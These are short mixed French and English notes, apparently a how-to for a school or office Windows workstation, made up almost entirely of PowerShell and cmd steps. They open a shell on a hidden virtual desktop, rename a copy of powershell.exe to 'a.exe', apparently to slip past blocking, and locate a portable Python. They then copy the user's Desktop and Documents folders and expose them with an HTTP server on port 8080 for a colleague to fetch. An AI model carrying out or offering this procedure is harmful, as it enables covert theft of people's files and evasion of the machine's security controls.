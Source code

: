 1- Ouvrir un cmd : (Il faut faire cela sur un autre bureau Windows Windows + flèche)

Windows + R : cmd

1.1- Copie du powershell
```powershell=
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe a.exe
```

2- Find python (A ne pas faire en réel)

```powershell=
Get-ChildItem -Path C:\ -Filter "python" -Recurse -File 2>$null
```

2.1- Get into the directory

```powershell=
cd ../../../EduPython/App
```

2.2- Copy Info from Desktop 
```powershell=
copy %USERPROFILE%\Desktop .

copy %USERPROFILE%\Documents .
```

3- Execute python server

```powershell=
.\python.exe -m http.server 8080 (prendre photo)
```

4- Get the IP from the station

```powershell=
ipconfig (envoyer message check)
```

---

* Il faut faire cela sur un autre bureau Windows 
* Vérifier l'IP de la machine 
* Prendre photos check
* Demandez par message à un collègue si ok
